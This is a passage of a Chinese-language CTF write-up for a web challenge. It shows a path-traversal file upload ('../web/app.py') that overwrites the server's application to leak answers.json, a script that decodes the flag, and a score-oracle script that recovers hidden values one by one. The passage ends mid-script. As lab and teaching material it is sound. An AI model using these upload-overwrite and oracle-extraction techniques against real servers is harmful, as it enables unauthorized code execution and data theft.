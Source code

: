 ```python
r = x.post(URL + "submit", files={
    "file": ("../web/app.py", PAYLOAD.encode())
}, allow_redirects=False)

print(r.status_code, r.text)
```

执行此代码 (记得执行前先重启环境，因为原文件已经被覆盖了)，随后重新访问主页，即可获取到 `answers.json` 的内容。之后，使用如下脚本解码，即可得到 flag：

```python
from json import load
from re import match

def decode(l: list[int]) -> str:
    # 将各数字加 65 后使用 ASCII 编码转换
    return ''.join(chr(i + 65) for i in l)

with open("answers.json", "r") as f:
    answers = load(f)

text = decode(answers)
flag = match(r"flag{.*?}", text) # 非贪婪匹配
if flag:
    print(flag.group())
```

### 思路 2 - 推测

实际上，不利用文件上传漏洞，我们也可以通过推测来获取 flag。首先任意生成一个长度 500 范围 $[0, 100]$ 的数组，不妨设置成全部为 $50$，上传至服务器，获得平方差 $x_1$；随后，第一个元素加一，上传至服务器，获得平方差 $x_2$。设第一个元素真实值为 $a_1$，那么我们有 $(50-a_1)^2=x_1$, $(51-a_1)^2=x_2$，解方程即可获得 $a_1$。对于后续元素亦是如此。以下是示例 Python 脚本：

```python
from requests import Session
from json import dumps
from re import search
from time import sleep

URL = "<URL>" # 替换为实际服务器的主页 URL
N = 500
DEFAULT_VALUE = 50
x = Session()

def get_diff(user_guess):
    """提交 user_guess 数组并返回服务器的平方差"""
    r = x.post(URL + "submit", files={
        "file": ("data.json", dumps(user_guess).encode())
    })
    # 从服务器响应中提取平方差
    # <li>评测成功，你的平方差为 742361</li>
    m = search(r"<li>评测成功，你的平方差为 (\d+)</li>", r.text)
    if m:
        return int(m.group(1))
    else:
        raise ValueError("无法从响应中提取平方差")

# 初始猜测值
user_guess = [DEFAULT_VALUE] * N
answers = []
default_diff = get_diff(user_guess) # 获取默认值的平方差

# 遍历每一个元素
for i in range(N):
    sleep(0.1)

```